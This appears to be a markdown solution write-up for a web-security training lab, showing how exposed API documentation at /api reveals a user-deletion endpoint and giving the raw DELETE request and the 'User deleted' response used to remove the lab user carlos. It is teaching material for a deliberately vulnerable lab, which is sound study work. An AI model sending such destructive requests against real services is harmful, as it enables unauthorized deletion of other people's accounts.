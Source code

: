 # Lab: Exploiting an API endpoint using documentation
To solve the lab, find the exposed API documentation and delete `carlos`. You can log in to your own account using the following credentials: `wiener:peter`.

#### Required knowledge

To solve this lab, you'll need to know:

- What API documentation is.
- How API documentation may be useful to an attacker.
- How to discover API documentation.

These points are covered in our API Testing Academy topic.

# Solution
Start by accessing the account page to get a first look.  
![](./img/Lab_1_Login.png)


When accessing the ```/my-account``` endpoint an endpoint for the API is discovered in both Burpsuite target tab and the HTML of the site.  
![](./img/Lab_1_Burp_target.png)


![](./img/Lab_1_Form_API_endpoint.png)


Accessing the ```/api``` endpoint the documentation for the API is presented.  
![](./img/Lab_1_API_Documentation.png)


To delete a user a ```DELETE``` request should be sent to the ```/user/[username]``` endpoint. To delete the ```carlos``` user, send a request to ```/user/carlos`

```http
DELETE /api/user/carlos HTTP/2
Host: 0a22009a04b49fc98152bdf7006a00d2.web-security-academy.net
Cookie: session=kMvpWotOP5NKOeUUrzigoMNjema8E8SJ
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 25

{"status":"User deleted"}
```



![](./img/
Lab_1_Solved%201.png)